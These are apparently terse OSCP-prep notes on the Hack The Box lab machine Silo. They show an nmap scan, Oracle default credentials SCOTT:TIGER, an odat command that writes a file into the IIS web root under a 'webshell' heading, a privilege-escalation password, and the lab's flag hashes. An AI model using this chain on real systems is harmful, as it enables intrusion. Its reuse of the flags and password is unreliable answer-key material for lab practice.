








# SILO / OSCP PREP



## NMAP SCAN

```text
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   syn-ack ttl 127 Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49159/tcp open  oracle-tns   syn-ack ttl 127 Oracle TNS listener (requires service name)
49160/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49161/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49162/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
```

## PORT 1521 ORACLE



```text
https://github.com/quentinhardy/odat

https://dastinia.io/tutorial/2018/07/31/installing-oracle-database-attacking-tool-on-kali/
```

#### DEFAULT CREDENTIALS

```text
SCOTT:TIGER
```

#### LOGIN



### UPLOAD WEBSHELL

```text
odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xdf.txt <(echo 0xdf was here)
```





## PRIVESC



```text
£%Hm8646uC$
```





## FLAGS

### USER

```text
92ede778a1cc8d27cb6623055c331617
```

### ROOT

```text
cd39ea0af657a495e33bc59c7836faf6
```

